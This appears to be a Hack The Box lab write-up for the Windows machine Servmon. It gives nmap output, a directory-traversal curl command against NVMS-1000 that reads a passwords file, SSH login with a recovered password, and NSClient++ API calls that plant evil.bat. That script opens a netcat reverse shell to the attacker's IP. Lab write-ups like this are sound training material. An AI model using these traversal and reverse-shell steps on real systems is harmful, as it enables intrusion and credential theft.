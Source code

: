 ```yaml
---
title: "[HTB] Servmon WriteUp"
date: 2020-06-15T15:34:30-04:00
categories:
  - writeup
tags:
  - HTB
  - Hack The Box
  - WriteUp
---
```


![]({{ site.url }}{{ site.baseurl }}/assets/servmon/servmon.jpg)

* OS: Windows
* Difficulty: Easy
* Points: 20
* Release: 11 Apr 2020
* IP: 10.10.10.184

Lets start by running nmap

```bash
nmap -sC -sV -oN nmap/nmap 10.10.10.184
```

Output:
```bash
# Nmap 7.80 scan initiated Tue May  5 19:41:18 2020 as: nmap -sV -sC -oN nmap/nmap 10.10.10.184
Nmap scan report for 10.10.10.184
Host is up (0.024s latency).
Not shown: 991 closed ports
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst: 
|_  SYST: Windows_NT
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp   open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesnt have a title (text/html).
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
...
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4m16s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-05T18:47:18
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May  5 19:43:07 2020 -- 1 IP address (1 host up) scanned in 108.77 seconds
```

FTP is running and allows anonymous login.
There are two users listed on the FTP server, Nadine and Nathan. We also find tome text files, "Notes to do".txt and Confidential.txt

Confidential.txt reads 
```
Nathan,

I left your Passwords.txt file on your Desktop.
Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

The webserver is running NVMS-1000, searching for exploits we find [CVE:2019-20085](https://www.exploit-db.com/exploits/48311) which is a directory traversal. We can use this to find the passwords.txt that the note told us about.

```bash
curl --path-as-is -G http://10.10.10.184/../../../../../../../../Users/Nathan/Desktop/passwords.txt
```

This gives us a list of passwords 

```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

We can try SSH with these passwords against both known users. The password L1k3B1gBut7s@W0rk works with Nadine.

We log in as Nadine and find User.txt on the Desktop.


### PrivEsc

This part took me a long time to do, mostly due to the GUI interface. I eventually done it using the [web API](https://docs.nsclient.org/api/).

Port 8443 is running NSClient++.

We can find the password for NSClient++ by going to C:\Program Files\NSClient++ and using the following command

```bash
nscp web --password --display
Current password: ew2x6SsGTxjRwXOT
```

We can try logging in using this password but it will only allow connections from localhost. SSH has port forwarding built in so log in as Nadine with port forwarding enabled.

```bash
ssh -L 8443:127.0.0.1:8443 Nadine@10.10.10.184
```

Now we can use the web API to add a malicious script and execute it to gain root privileges.

First we need to upload nc.exe to C:/Temp. Then use the following command to add our script.

```bash
curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.exe 10.10.14.33 9001 -e cmd.exe"
```

When run this will call back to our IP address. Set up a listener on the attacking machine.

```bash
nc -lvnp 9001
```

Then run the script

```bash
curl -s -k -u admin https://localhost:8443/api/v1/queries/evil/commands/execute?time=1m
```

This should connect back and give us root!

Root.txt is in C:\Users\Administrator\Desktop\root.txt


